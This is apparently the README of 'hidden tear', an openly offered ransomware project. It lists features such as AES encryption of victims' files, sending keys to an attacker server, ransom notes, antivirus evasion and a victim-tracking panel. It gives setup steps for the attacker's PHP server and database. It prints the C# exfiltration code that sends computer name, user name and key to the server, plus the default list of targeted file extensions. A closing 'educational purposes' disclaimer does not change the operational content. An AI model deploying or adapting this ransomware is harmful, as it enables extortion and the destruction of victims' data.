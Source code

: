          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (12 KB)
* Doesn't detected to antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt - Do not scan with virus total or similar
* This project was updated by Virgula0 and coded by Uktu Sen 
- New features:
* A new advanced server script was added that saves data into database
* All informations are sent if there is an internet connection and the ransomware wait for it if there isn't.
* You can see all target information with Server Attacker panel
* Script can also send you an email with datas
* It can encrypt also exe files and it doesn't get collisions with other processes now
* It encrypt now a lot of files with a lot of extensions more and changing desktop icon with information about hacking attack
* Hidden Tear decryptor now advise if files have been decrypted or not.
* Hidden Tear Decryptor now is able to decrypt the same directories of hidden-tear ransomware.
* Hidden tear change default windows icon of desktop if decrypted is succesfully finished.
* A bug that could delete a part of passcode while sending has been removed.

***************************************************************************************************************************
* If you want , you can send some BTC for this re-work and support me, thank you!
* Address: 18pm5hUEXmkXFVmbFsyHPMMAsnCkEyQJmW	| Or you can scan qr code named donation_btc_address.png in the main path *
* Or paypal: https://paypal.me/Virgula																					  *
* Thank You!																											  *
***************************************************************************************************************************

**Demonstration Video**

https://www.youtube.com/watch?v=0IvD9Sky9as

Warning: in that video wasn't shown the attacker panel but only the key saved into the file to make the video lasts less.

**Usage**

* You need to have a web server which supports php scripting language. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/Server/write.php";`

  * Default Username and password for webpanel (in check.php file) are -> Username: test | Password: test
  * Import sql table in your database importing the file: import.sql
  * Set you database credetials in the file: connect_db.php
  * If you want also write a file for every virus execution go to file: write.php and uncomment from the line 37 to 43. For privacy of information this is not recommended
  * Set your email to get information also by email (don't write your PERSONAL email) in line  47 of file write.php

* The script should writes the GET parameter into a database and if you want into a text file. Sending process running in `SendPassword()` function

  ```
        string info = "?computer_name=" + computerName + "&userName=" + userName + "&password=" + password + "&allow=ransom";
        var fullUrl = targetURL + info;
        var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:
```
var validExtensions = new[]{".txt", ".jar", ".exe", ".dat", ".contact" , ".settings", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".py", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".htm", ".xml", ".psd" , ".pdf" , ".dll" , ".c" , ".cs", ".mp3" , ".mp4", ".f3d" , ".dwg" , ".cpp" , ".zip" , ".rar" , ".mov" , ".rtf" , ".bmp" , ".mkv" , ".avi" , ".apk" , ".lnk" , ".iso", ".7-zip", ".ace", ".arj", ".bz2", ".cab", ".gzip", ".lzh", ".tar", ".uue", ".xz", ".z", ".001", ".mpeg", ".mp3", ".mpg", ".core", ".crproj" , ".pdb", ".ico" , ".pas" , ".db" ,  ".torrent" };
```

* PLEASE DON'T ADD .INI EXTENSION BECAUSE THE CONFILCT WITH THIS FILES WILL CRASH YOUR SCRIPT
* In this new re-upload there is a function that wait for internet connection before to send password to the database:

	    ```
        //check for internet connection
        public static bool CheckForInternetConnection()
        {
            try
            {
                using (var client = new WebClient())
                {
                    using (var stream = client.OpenRead("https://www.google.com"))
                    {
                        return true;
                    }
                }
            }
            catch
            {
                return false;
            }
        }
		```

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

